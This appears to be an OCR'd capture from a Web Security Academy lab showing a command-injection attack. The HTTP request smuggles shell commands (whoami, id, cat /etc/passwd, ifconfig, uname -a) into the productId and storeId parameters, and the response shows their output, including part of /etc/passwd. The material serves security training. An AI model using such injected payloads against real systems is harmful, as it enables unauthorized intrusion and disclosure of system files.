 ```python





REQUEST CON MAS INFO:



POST /product/stock HTTP/2
Host: 0a44009d04476521832ac97500f6006a.web-security-academy.net
Cookie: session=FQNrB0YT17TwxZmkQudFdRcKPfcMaqqb
Content-Length: 79
Sec-Ch-Ua: "Chromium";v="118", "Google Chrome";v="118", "Not=A?Brand";v="99"
Sec-Ch-Ua-Platform: "Linux"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0a44009d04476521832ac97500f6006a.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a44009d04476521832ac97500f6006a.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Accept-Language: es-419,es;q=0.9,en;q=0.8

productId=;echo P4IM0N&storeId=;whoami;id;cat /etc/passwd;pwd;ifconfig;uname -a







RESPONSE SE TENZO MAL:





HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 2545

P4IM0N

peter-0T0L0D

uid=12001(peter-0T0L0D) gid=12001(peter) groups=12001(peter)

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
```